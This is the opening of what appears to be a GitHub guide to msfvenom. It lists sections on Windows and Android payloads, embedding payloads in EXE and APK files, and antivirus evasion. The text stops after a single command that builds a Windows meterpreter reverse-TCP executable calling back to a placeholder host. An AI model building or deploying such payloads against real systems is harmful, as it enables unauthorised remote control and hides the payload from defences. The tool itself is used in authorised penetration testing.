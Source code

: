 # Msfvenom Practical Guide

## Introduction

Msfvenom is a powerful tool within the Metasploit Framework used for generating payloads. This practical guide will walk you through the process of generating standalone payloads and listeners for various platforms, embedding payloads into executable files (exe) and Android applications (APK), and creating fully-undetectable payloads using Shellter or other antivirus evasion techniques.

## Table of Contents

1. [Setting Up Metasploit](#setting-up-metasploit)
2. [Generating Standalone Payloads](#generating-standalone-payloads)
3. [Embedding Payloads to Exe and APK](#embedding-payloads)
4. [Creating Fully-Undetectable Payloads](#fully-undetectable-payloads)

## Setting Up Metasploit

Ensure you have Metasploit installed and configured on your system. If not, refer to the official documentation for installation instructions: [Metasploit Framework Installation](https://metasploit.help.rapid7.com/docs/metasploit-framework-installation)

## Generating Standalone Payloads

Use the following command to generate a basic Windows executable payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<your-port> -f exe > payload.exe
